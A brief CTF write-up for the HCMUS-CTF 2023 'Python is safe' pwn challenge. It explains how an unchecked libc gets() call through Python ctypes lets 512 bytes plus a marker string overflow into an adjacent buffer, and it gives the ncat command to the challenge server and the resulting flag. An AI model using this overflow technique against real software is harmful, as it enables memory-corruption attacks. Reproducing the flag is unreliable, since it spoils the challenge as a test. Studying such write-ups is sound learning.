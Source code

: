 # Python is safe

## Description  
![image](https://github.com/KenTranR3/HCMUS-CTF-2023-Quals/blob/main/PWN/Python%20is%20safe/Description.png)

## Write Up
* There are some note in the source code:
    -  ``` libc = CDLL('/lib/x86_64-linux-gnu/libc.so.6') buf1 = c_buffer(512) buf2 = c_buffer(512) ``` this code using gnu compiler and acting like the C code, ```c_buffer``` is create a buffer just like an array and var  `buf1` and `buf2` connect to each other.
    - ```libc.gets(buf1) ``` when user input, it will be added to `buf1` not `buf2`.
* However because `buf1` and `buf2` connect to each other so we can try to buffer overflow it. We will input an 512 letter + `HCMUS-CTF` to print the flag
* ```ncat --ssl python-is-safe.chall.ctf.blackpinker.com 443 A*512+HCMUS-CTF```
* ```HCMUS-CTF{pYt40n_4rE_s|U|Perrrrrrr_5ecureeeeeeeeeeee}```


